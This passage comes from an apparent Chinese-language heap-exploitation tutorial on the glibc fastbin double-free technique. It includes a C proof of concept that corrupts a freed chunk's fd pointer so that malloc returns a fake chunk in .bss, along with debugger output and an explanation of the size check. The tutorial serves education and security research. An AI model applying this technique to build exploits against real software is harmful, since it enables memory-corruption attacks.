 ![](./figure/fastbin_free_chunk2.png)

第三次釋放`free(chunk1)`



![](./figure/fastbin_free_chunk3.png)


注意因爲 chunk1 被再次釋放因此其 fd 值不再爲 0 而是指向 chunk2，這時如果我們可以控制 chunk1 的內容，便可以寫入其 fd 指針從而實現在我們想要的任意地址分配 fastbin 塊。
下面這個示例演示了這一點，首先跟前面一樣構造 main_arena=>chunk1=>chun2=>chunk1的鏈表。之後第一次調用 malloc 返回 chunk1 之後修改 chunk1 的 fd 指針指向 bss 段上的 bss_chunk，之後我們可以看到 fastbin 會把堆塊分配到這裏。

```
typedef struct _chunk
{
    long long pre_size;
    long long size;
    long long fd;
    long long bk;
} CHUNK,*PCHUNK;

CHUNK bss_chunk;

int main(void)
{
    void *chunk1,*chunk2,*chunk3;
    void *chunk_a,*chunk_b;

    bss_chunk.size=0x21;
    chunk1=malloc(0x10);
    chunk2=malloc(0x10);

    free(chunk1);
    free(chunk2);
    free(chunk1);

    chunk_a=malloc(0x10);
    *(long long *)chunk_a=&bss_chunk;
    malloc(0x10);
    malloc(0x10);
    chunk_b=malloc(0x10);
    printf("%p",chunk_b);
    return 0;
}
```
在我的系統上 chunk_b 輸出的值會是 0x601090，這個值位於bss段中正是我們之前設置的`CHUNK bss_chunk`
```
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]

0x601080 <bss_chunk>:	0x0000000000000000	0x0000000000000021
0x601090 <bss_chunk+16>:0x0000000000000000	0x0000000000000000
0x6010a0:	            0x0000000000000000	0x0000000000000000
0x6010b0:	            0x0000000000000000	0x0000000000000000
0x6010c0:	            0x0000000000000000	0x0000000000000000
```
值得注意的是，我們在 main 函數的第一步就進行了`bss_chunk.size=0x21;`的操作，這是因爲_int_malloc會對欲分配位置的 size 域進行驗證，如果其 size 與當前 fastbin 鏈表應有 size 不符就會拋出異常。
```
*** Error in `./tst': malloc(): memory corruption (fast): 0x0000000000601090 ***
======= Backtrace: =========
```